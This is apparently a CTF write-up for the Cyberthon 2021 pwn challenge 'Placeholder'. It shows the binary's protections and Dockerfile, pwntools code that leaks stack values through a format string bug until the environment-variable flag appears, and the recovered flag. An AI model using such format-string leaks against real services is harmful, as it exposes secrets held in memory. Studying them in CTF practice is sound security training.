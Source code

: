 # Placeholder

---

### DESCRIPTION

> Hohoho seems like one of the APOCALYPSE agents messed up big time. Seems this agent went to deploy his/her code for testing and completely forgot to bring down the network service. This careless agent even forgot to private the repository containing the test code, so we've managed to obtain the source for the entire project, dockerfile and all. We've provided you with everything that we've found, so can you get the flag from their server?

> Interact with the service at: aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg:30501

> Note: The dockerfile we provided contains a placeholder flag, do not submit it. Get the actual flag from the network service.

[dist.tar.gz](https://github.com/caprinux/Cyberthon-2021/files/6445850/dist.tar.gz)

---

### Walkthrough

First we check the security of the binary.

```py
[*] '/media/sf_dabian/Challenges/Cyberthon/Pwn/placeholder/files/placeholder'

    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

_uh oh thats lots of protections_

Running the binary, we see that it takes an input and returns it back to us. 

With a little CTF instincts, one can easily guess that there may be a format string vulnerability, and when we tried, yes there is!

![image](https://user-images.githubusercontent.com/76640319/117539374-eadfe480-b03c-11eb-842f-34b6640d0a7a.png)

However, Full RELRO means that we will not be able to overwrite the GOT. PIE means that we probably cant find the exact addresses to overwrite either unless we leak it.

We are immediately limited by our options.

Let's look at the other files provided to us.

```
FROM amd64/ubuntu:focal

ENV user=placeholder
ENV flag=Cyberthon{PLACEHOLDER_FLAG}
RUN useradd -m $user
RUN echo "$user     hard    nproc       20" >> /etc/security/limits.conf

RUN apt-get update
RUN apt-get install -y xinetd

COPY ./placeholder /home/$user/
COPY ./service /etc/xinetd.d/$userservice

RUN chown -R root:$user /home/$user
RUN chmod -R 750 /home/$user
RUN echo "$flag" > /home/$user/flag.txt
RUN chown root:$user /home/$user/flag.txt
RUN chmod 440 /home/$user/flag.txt

USER $user

EXPOSE 1337
CMD ["/usr/sbin/xinetd", "-dontfork"]
```

As you can see, our flag and our user are envrionmental variables. _ok idk the answer at this point_

Just fuzzing the binary, I tried to leak lots of addresses from the stack. I did something like

```py
p = process('./placeholder')
p.sendline('%p.'*50) 
p.recvall()
```

I plugged all the values into cyberchef and decoded via hex but all I got were rubbish bytes. 

By this time, I had something else urgent going on and I couldn't work on it anymore.

---
### RANT

_imagine the frustration when ur just like 2 letters away from 1000 pt chall_

```py
p = process('./placeholder')
p.sendline('%p.'*1100) 
p.recvall()
```

In fact, envrionmental variables are stored on the stack, but at the very end. Hence you have to leak enough addresses.

However, it may be a little tricky as PIE and ASLR is enabled so the number of addresses to leaked is not fixed. 

If you leak more than what the stack has, the program crashes.

However, if you do not leak enough, your flag doesn't come out. Hence it took a few runs of the script to get a satisfactory result.

![image](https://user-images.githubusercontent.com/76640319/117539674-46f73880-b03e-11eb-9bc2-fc380a7e3902.png)

![image](https://user-images.githubusercontent.com/76640319/117539685-52e2fa80-b03e-11eb-81b8-8a72a526e7b4.png)

```
Cyberthon{d0nt_d3pl0y_1nc0mpl3t3_pr0j3ct5}
```

